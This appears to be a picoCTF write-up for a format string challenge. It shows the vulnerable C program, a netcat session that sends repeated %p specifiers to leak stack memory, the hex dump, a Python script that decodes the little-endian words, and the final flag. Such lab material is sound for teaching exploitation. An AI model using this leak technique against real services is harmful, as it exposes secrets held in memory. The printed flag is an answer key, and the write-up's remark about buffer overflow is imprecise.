 # Description: 
I'm just copying and pasting with this `program`. What can go wrong? 

You can view source `here`. And connect with it using: `nc saturn.picoctf.net 60610`

This is the program provided:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
# Solution:
The challenge involves a vulnerability or task with specific lines of code:
scanf("%127s", story); is used to read input, potentially vulnerable to buffer overflow or input manipulation.
The pointer buf in the _readflag_ function is associated with reading and storing the contents of the flag.txt file.
the %p format specifier to print the address of the buf pointer in hexadecimal. This can be useful for examining memory or exploiting format string vulnerabilities.
> Last login: Wed Dec 11 22:20:11 on ttys000
> apurva@Deepas-MacBook-Air ~ % nc saturn.picoctf.net 57874
> Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%
> Here's a story - 
> 0xffd6ce500xffd6ce700x80493460x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x2570250x80483380xf4114d200xf3f99ab00x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x303666350x7d3731360xfbad20000xbe3fc700(nil)0xf41509900x804c0000x8049410(nil)0x804c0000xffd6cf380x80494180x20xffd6cfe4
> apurva@Deepas-MacBook-Air ~ % 
inputted %p 128 times since the story's length is 128 then converted this address to its raw value aka UTF-8 using codechef.
> To extract and convert the raw memory addresses from the output you provided, we need to isolate the hexadecimal values (0x...) that are valid addresses, ignoring any invalid ones (like (nil) or sequences without proper 0x prefixes).
> Then i converted each hex value into ASCII which lead me to realise i had to reverse each block of 4 charecters. Used GPT to write some python code to do so (attached below)

  Encoded flag values as provided
encoded_flag_hex = [
    0x6f636970, 0x7b465443, 0x6b34334c, 0x5f676e31, 0x67346c46,
    0x6666305f, 0x3474535f, 0x395f6b63, 0x30366635, 0x7d373136
]

Function to decode the flag
def decode_flag(encoded_hex):
    decoded_flag = ""
    for hex_value in encoded_hex:
        # Convert hex to a string
        chars = f"{hex_value:08x}"  # Ensure 8 characters for proper grouping
        # Reverse each block of 4 characters and append to the decoded flag
        reversed_block = chars[6:8] + chars[4:6] + chars[2:4] + chars[0:2]
        decoded_flag += bytes.fromhex(reversed_block).decode('ascii')
    return decoded_flag

Decode the flag
decoded_flag = decode_flag(encoded_flag_hex)
decoded_flag

Which then gave me the decoded flag.

# Flag:
> picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}



